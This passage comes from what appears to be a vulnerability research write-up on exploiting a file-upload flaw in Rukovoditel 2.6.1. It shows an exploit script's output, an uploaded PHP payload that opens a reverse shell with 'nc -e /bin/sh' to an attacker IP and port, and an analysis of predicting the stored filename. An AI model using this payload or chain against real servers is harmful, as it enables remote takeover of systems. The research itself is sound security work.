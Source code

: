 Which gives us the following result once launched:

```
▶ ./exploit.sh http://127.0.0.1/projects/rukovoditel_2.6.1/ 1e58bba933b8f378888b9dc000e0901f
./exploit.sh: line 3: =test.php: command not found
Setting target: http://127.0.0.1/projects/rukovoditel_2.6.1/
Setting sid: 1e58bba933b8f378888b9dc000e0901f

Extracting $app_user['id']:
  =>  $app_user['id']: 20
Setting arbitrary $_POST['timestamp']:
  =>  $_POST['timestamp']: 1337
Calculating $verifyToken:
  =>  $verifyToken: e00146591f2c03c61dfad23ce2e77362

[*] Trying to upload ...
[DEBUG]: Start
Hit!
```

It seems like we hit further in the code, that's why I checked if the file was correctly created on the remote filesystem.

```
▶ ls <ROOT>/uploads/attachments/2020/06/11/
a1ccd0b803a0561729c06283327453cb17e2c020
▶ cat <ROOT>/uploads/attachments/2020/06/11/a1ccd0b803a0561729c06283327453cb17e2c020
<?php system("nc -e /bin/sh 172.18.0.1 4444"); ?>
```

#### Problems

We then face two problems:
1. We need to predict the remote filename.
2. The file is not directly accessible and moreover does not have the PHP extension which implies that we need to include it with functions such as:

    -    include
    -    require
    -    require_once
    -    ...
    
    in order to execute it's content.

#### Solution 1

The filename is generated by the function `prepare_filename()` as it can be seen from the condition`if(move_uploaded_file($_FILES['Filedata']['tmp_name'], DIR_WS_ATTACHMENTS  . $file['folder']  .'/'. $file['file']))`. So let's dive in this functions's code:

File: <span style="color:red">\<ROOT\>/includes/classes/attachments.php</span>
```php
public static function prepare_filename($filename)
{
$filename = str_replace(array(" ",","),"_",trim($filename));

if(!is_dir(DIR_WS_ATTACHMENTS  . date('Y'))) 
{
    mkdir(DIR_WS_ATTACHMENTS  . date('Y'));
}

if(!is_dir(DIR_WS_ATTACHMENTS  . date('Y') . '/' . date('m')))
{
    mkdir(DIR_WS_ATTACHMENTS  . date('Y'). '/' . date('m'));
}

if(!is_dir(DIR_WS_ATTACHMENTS  . date('Y') . '/' . date('m') . '/' . date('d')))
{
```